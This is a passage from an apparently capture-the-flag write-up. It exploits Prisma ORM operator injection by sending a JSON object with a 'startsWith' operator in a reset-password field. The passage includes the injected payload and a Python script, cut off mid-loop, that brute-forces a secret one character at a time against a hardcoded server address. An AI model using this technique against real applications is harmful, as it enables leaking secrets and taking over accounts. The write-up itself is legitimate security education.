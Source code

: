 And again the error message is very clear and it says that the argument `e` is not valid so we can't use it.

Then i tried to use the `startsWith` field and it worked.

What is we changed the query to be like this?
```js
const user = await prisma.user.findUnique({
    where: {
      email: "admin@reveal.com"
    },
    password: {
      startsWith: password
    }
  });
  ```
  Here is the json payload that i sent to the server.
  ```json
  {
    "email": "admin@reveal.com",
    "secret":{"startsWith":"a"}
  }
  ```

now we can brute force the secret field and get the flag.
why not brute force the password field? because the password field is hashed and we can't crack it.

why not the reset password token field? because it's being changed every time you request a reset password link.

### Exploitation
```python

import requests
import time
import urllib.parse

url = 'http://209.38.222.134:3000/api/auth/reset'
email = 'admin@reveal.com'
token_prefix = ''
alphabet = """A1BCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789{}_@!#$%^&*()[]-+=|;:,<>/?~ \n\t\r'"\`\\.""" 

def check_token(token):
    payload = {
        'email': email,
        'secret': {
            'startsWith': token_prefix + token
        }
    }
    headers = {'Content-Type': 'application/json'}
    response = requests.post(url, json=payload, headers=headers)
    
    if 'Reset email sent successfully.' in response.text:
        return True
    else:
        return False

def brute_force_token(base_token):
    while True:
        found = False
        for char in alphabet:
            encoded_char = urllib.parse.quote(char, safe='')
            test_token = base_token + encoded_char
            if check_token(test_token):
                base_token = test_token
```